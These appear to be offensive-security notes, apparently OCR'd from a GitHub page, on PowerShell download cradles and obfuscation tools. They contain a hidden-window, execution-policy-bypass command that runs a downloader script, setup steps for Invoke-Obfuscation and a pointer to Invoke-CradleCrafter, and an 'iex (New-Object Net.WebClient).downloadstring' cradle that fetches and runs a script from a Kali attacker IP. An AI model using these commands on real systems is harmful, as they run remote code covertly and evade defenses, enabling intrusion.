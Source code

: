 ```powershell
powershell.exe -ExecutionPolicy bypass -Window hidden .\downloader.ps1
```

> [ extra ]
A great tool to craft obfuscated download cradles:

```powershell
Invoke-CradleCrafter = https://github.com/danielbohannon/Invoke-CradleCrafter
```




## Obfuscation

Invoke-Obfuscation = https://github.com/danielbohannon/Invoke-Obfuscation

```
- First download
- Then, find the modules paths
   → $env:PSModulePath
	// in this case C:\users\user\Documents\WindowsPowerShell\Modules
	// After extract to this folder
- Import the module
   → Import-Module Invoke-Obfuscation
- Open it
   → Invoke-Obfuscation
```

### We have several options
```
TOKEN
AST
STRING
ENCODING
COMPRESS
LAUNCHER
```

### SET SCRIPTBLOCK

As an example of a script block we can use a standard Net.WebClient download cradle:
```powershell
SET SCRIPTBLOCK iex (New-Object Net.WebClient).downloadstring("http://<kali ip>/Get-ProcessPath.ps1")
```

### Type of Obfuscation

#### STRING

We are presented with several options For that method:
	1. Concatenate
	2. Reorder
	3. Reverse
